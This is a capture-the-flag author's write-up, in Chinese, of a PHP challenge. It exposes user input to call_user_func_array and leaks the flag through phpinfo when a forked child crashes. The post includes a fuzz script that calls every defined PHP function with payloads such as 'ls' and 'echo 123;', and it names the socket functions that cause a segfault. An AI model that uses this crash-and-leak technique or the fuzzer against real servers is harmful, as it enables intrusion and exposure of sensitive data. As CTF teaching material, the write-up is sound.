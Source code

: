 # easyphp出题笔记

这题原意是想让大家写脚本来fuzz来发现CUFA/CUF中对引用处理不恰当而造成的崩溃，特意禁止了pcntl可是由于没有认真测试，忘记了还有CUF这个函数，结果有人直接绕过了。

出题人想干的事情就是我们不让他干成就是对这种情况的最好解释。最后看到自己的题目被解成那样，我也是自闭了。

继续正题吧。

## 来由

之所以会出现这题是因为前段时间的wmctf的webweb反序列化出有这样一处的利用点，我为了找到合适的函数就采取fuzz，东西没发现倒是发现php崩溃了。



## 漏洞细节

直接去看[bugs.php](https://bugs.php.net/bug.php?id=79979) 上面的，会不会是因为交到bugs.php上的原因导致这么多人解了？



## 原解

阅读代码我们发现:`if(!pcntl_wifexited($status)){phpinfo();}`，及fork的子进程报错就会执行phpinfo，而phpinfo里面通常包含敏感信息，和一些对我们题目有帮助的信息。

fork子进程执行的代码是：

```php
if(isset($_GET['a'])&&is_string($_GET['a'])&&!preg_match("/[:\\\\]|exec|pcntl/i",$_GET['a'])){
            call_user_func_array($_GET['a'],[$_GET['b'],false,true]);
```

而这里调用了非常敏感的call_user_func_array，所以无论是想让子进程报错还是直接执行代码这里都是非常好的选择。因此我们先要写个fuzz脚本：

```php
<?php

    $payloads=[
        "ls",//shell命令执行测试
        "index.php",//读取文件测试
        "asdfasldfjaklsdfjl.php",//创建文件/文件夹测试
        "echo 123;"//php命令执行测试
    ];
    $str=file_get_contents("fatalerr.log");
    if(!$str){
        $str="[]";
    }
    $fatalerror=eval("return ".$str.";");
    function show_result($func,$r,$v){
        if($r==NULL){
        }
        try{
            echo "$func($v,false,true) return value:";
            var_dump($r);
            echo "<br />";
        }catch(Exception $e){}
    }

    function brute_func($a){
        global $payloads;
        global $fatalerror;
        
        foreach($a as $val){
            
            if(is_array($val)){
                brute_func($val);
                continue;
            }
            
            if(in_array($val,$fatalerror)){
                continue;
            }
            array_push($fatalerror,$val);
            file_put_contents("fatalerr.log",var_export($fatalerror,TRUE));
            foreach($payloads as $v){
                $r=NULL;
                
                $r=call_user_func_array($val,[$v,false,true]);
                show_result($val,$r,$v);
                
            }
            array_pop($fatalerror);
            
        }
    };
    $arr=get_defined_functions();
    brute_func($arr);
?>
```



多次执行发现：

```php
stream_socket_server
exec
stream_socket_client
```

这三个函数会引起segment_fault 且 exec虽然会引起segment  fault但是仍然执行了代码，但是这里我禁用了exec所以我们用另外两个函数引起segment fault查看phpinfo，在phpinfo中找到flag。



## 最后

希望有师傅有不同的解可以留个言啥的谢谢啦